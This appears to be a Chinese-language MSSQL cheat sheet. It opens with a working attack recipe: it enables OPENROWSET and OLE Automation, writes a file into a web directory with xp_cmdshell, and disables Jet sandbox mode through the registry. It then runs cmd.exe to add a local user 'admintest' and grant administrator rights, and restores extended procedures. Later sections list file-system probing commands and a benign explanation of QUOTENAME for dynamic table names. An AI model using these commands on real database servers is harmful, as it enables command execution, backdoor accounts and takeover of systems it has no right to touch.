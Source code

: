 ```sql
-- 开启'OPENROWSET':
exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure'Ad Hoc Distributed Queries',1;RECONFIGURE;
-- 开启'sp_oacreate':
exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure'Ole Automation Procedures',1;RECONFIGURE;
exec master.dbo.xp_dirtree 'c:\'
EXEC master.dbo.xp_cmdshell 'Echo 2 >>e:\root\Bootstrap2\Images\test.aspx'
-- 利用SQL沙盒模式
-- note:什么是沙盒模式?沙盒模式是数据库的一种安全功能.在沙盒模式下,只对控件和字段属性中的安全且不含恶意代码的表达式求值.如果表达式不使用可能以某种方式损坏数据的函数或属性，则可认为它是安全的.

-- 首先开启沙盒模式：
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;
-- 然后利用jet.oledb执行系统命令
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\ias.mdb','select shell("cmd.exe /c net user admintest admintest123 /add")')
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\ias.mdb','select shell("cmd.exe /c net localgroup administrators test /add")')
-- 搞定 ^_^ !
dbcc addextendedproc ('xp_regread','xpstar.dll')
dbcc addextendedproc ('xp_regwrite','xpstar.dll')
```

## 文件操作

```sql
-- 历遍目录
exec master.dbo.xp_dirtree 'c:\'
-- 获取子目录
exec master.dbo.xp_subdirs 'c:\'
-- 判断目录或文件是否存在
exec master..xp_fileexist 'c:\boot.ini'
EXEC master..xp_cmdshell 'ipconfig'
```

## 查询问题

```sql
-- 简单来说吧比如你有一个表，名字叫 index你有一个动态查询，参数是表名
declare @tbname varchar(256)
set @tbname='index'
---查这个表里的数据：
print('select * from '+@tbname)
exec('select * from '+@tbname)
--这样print出来的数据是
select * from index
-- 因为index是字键字，肯定出错，加上括号就可以了：
select * from [index]
-- 这便有了QUOTENAME，即：
print('select * from '+QUOTENAME(@tbname))
--结果：select * from [index]
exec('select * from '+QUOTENAME(@tbname))
```
